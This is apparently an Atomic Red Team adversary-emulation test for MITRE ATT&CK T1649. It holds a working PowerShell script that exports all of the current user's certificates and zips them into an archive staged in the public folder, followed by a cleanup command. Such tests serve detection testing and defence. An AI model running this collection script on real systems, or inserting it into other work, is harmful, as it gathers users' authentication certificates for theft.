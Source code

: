 ```yaml
---
tags: [T1649, atomic_test]
filename: "[[T1649|T1649 - Steal or Forge Authentication Certificates]]"
---
```

# T1649 - Steal or Forge Authentication Certificates

## Atomic Test #1 - Staging Local Certificates via Export-Certificate
Export all user certificates and add to a compressed archive.

**Supported Platforms:** Windows


**auto_generated_guid:** eb121494-82d1-4148-9e2b-e624e03fbf3d






#### Attack Commands: Run with `powershell`! 


```powershell
$archive="$env:PUBLIC\T1649\atomic_certs.zip"
$exfilpath="$env:PUBLIC\T1649\certs"
Add-Type -assembly "system.io.compression.filesystem"
Remove-Item $(split-path $exfilpath) -Recurse -Force -ErrorAction Ignore
mkdir $exfilpath | Out-Null
foreach ($cert in (gci Cert:\CurrentUser\My)) { Export-Certificate -Cert $cert -FilePath $exfilpath\$($cert.FriendlyName).cer}
[io.compression.zipfile]::CreateFromDirectory($exfilpath, $archive)
```

#### Cleanup Commands:
```powershell
$exfilpath="$env:PUBLIC\T1649\certs"
Remove-Item $(split-path $exfilpath) -Recurse -Force -ErrorAction Ignore
```





<br/>
